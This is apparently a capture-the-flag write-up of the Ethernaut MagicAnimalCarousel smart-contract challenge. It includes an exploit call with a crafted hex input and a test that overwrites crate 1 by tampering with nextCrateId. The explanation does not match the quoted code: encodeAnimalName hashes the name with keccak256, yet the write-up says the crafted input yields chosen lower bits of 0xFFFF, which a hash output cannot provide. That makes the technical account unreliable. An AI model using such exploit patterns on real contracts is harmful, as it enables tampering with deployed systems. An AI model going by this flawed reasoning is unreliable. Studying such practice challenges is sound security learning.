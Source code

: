 # Carousel Challenge(Ethernaut)

## Challenge Overview:

The MagicAnimalCarousel contract stores animals in a circular buffer of "crates". Each crate contains three pieces of information packed into a single uint256:

1. owner: 160 bits ([0..159])

2. nextCrateId: 16 bits ([160..175])

3. encodedAnimal: 80 bits ([176..255])

The challenge asks us to break the carousel's "magic rule": that no animal should ever return to crate 1. Our goal is to force a new animal (e.g., "Cat") into crate 1, overwriting the original one (e.g., "Dog").

***Vulnerability***:
 Arbitrary overwriting of the nextCrateId field via an unvalidated animal name in changeAnimal().

**Cause**:
The function changeAnimal(string calldata animal, uint256 crateId) fails to sanitize the middle 16 bits (bits 160–175) of encodedAnimal. This allows an attacker to craft an input where these bits contain a desired nextCrateId value (e.g., 0xFFFF = 65535), which gets stored in the crate directly.

### VulnerabilityCode:
```solidity
// 96 bits allow,it will change the crateId(overwrite the existing ones)
function encodeAnimalName(
        string calldata animalName
    ) public pure returns (uint256) {
        //@audit here length of animal name is only 10 bytes(80 bits) but in carousel it is 12 bytes(96 bits)
        require(bytes(animalName).length <= 12, "Animal name too long");
        return uint256(keccak256(abi.encodePacked(animalName)) >> 160);
    }

// this is change function vulnerability:
 uint256 encodedAnimal = encodeAnimalName(animal);
        if (encodedAnimal != 0) {
            // Replace animal
            carousel[crateId] =
                (encodedAnimal << 160) |
                (carousel[crateId] & NEXT_ID_MASK) |
                uint160(msg.sender);
        } else {
            carousel[crateId] = (carousel[crateId] &
                (ANIMAL_MASK | NEXT_ID_MASK));
        }
```
Here, (encodedAnimal << 160) places 96 bits starting from bit 160, which overwrites both nextCrateId (16 bits) and encodedAnimal (80 bits).

There's no masking to preserve the old nextCrateId, so it can be replaced with a custom value.


### ProofofExploit:
```solidity
string memory exploitString = string(
    abi.encodePacked(hex"10000000000000000000FFFF")
);
carousel.changeAnimal(exploitString, 1);

```
1. The crafted input (hex"10000000000000000000FFFF") becomes a "fake" animal name.

2. When passed to encodeAnimalName(), it produces an encoded animal with its lower 16 bits set to 0xFFFF.

3. After << 160, this directly places 0xFFFF into bits 160–175, changing nextCrateId to 65535.


### TestCase:
```solidity
function testBreakMagicRule() public {
    carousel.setAnimalAndSpin("Dog");

    uint256 crate1Data = carousel.carousel(1);
    uint256 animalMask = uint256(type(uint80).max) << 176;
    uint256 encodedDog = uint256(keccak256(abi.encodePacked("Dog"))) >> 176;
    uint256 animalInCrate1 = (crate1Data & animalMask) >> 176;
    assertEq(animalInCrate1, encodedDog, "Crate 1 should contain 'Dog'");

    // Step 2: Exploit to inject 0xFFFF as nextCrateId
    string memory exploitString = string(
        abi.encodePacked(hex"10000000000000000000FFFF")
    );
    carousel.changeAnimal(exploitString, 1);

    // Step 3: Write to crate 65535
    carousel.setAnimalAndSpin("Parrot");
    uint256 crate65535Data = carousel.carousel(65535);
    uint256 encodedParrot = uint256(keccak256(abi.encodePacked("Parrot"))) >> 176;
    uint256 animalInCrate65535 = (crate65535Data & animalMask) >> 176;
    assertEq(animalInCrate65535, encodedParrot, "Crate 65535 should contain 'Parrot'");

    // Step 4: Overwrite crate 1 again
    carousel.setAnimalAndSpin("Cat");
    uint256 updatedCrate1Data = carousel.carousel(1);
    uint256 updatedAnimal = (updatedCrate1Data & animalMask) >> 176;
    assertTrue(updatedAnimal != encodedDog, "Crate 1 should not contain Dog anymore");
}

```
### Summary of this Challenge:

1. Insert "Dog" into crate 1 using setAnimalAndSpin("Dog").

2. Exploit changeAnimal() with a crafted string to overwrite nextCrateId of crate 1 to 65535.

3. Insert "Parrot", which lands in crate 65535 due to tampered nextCrateId.

4. Insert "Cat", which wraps around to crate 1 — breaking the magic rule.

***FinalThoughts of this Challenge***:
Its just understanding the core concets in solidity not real world attack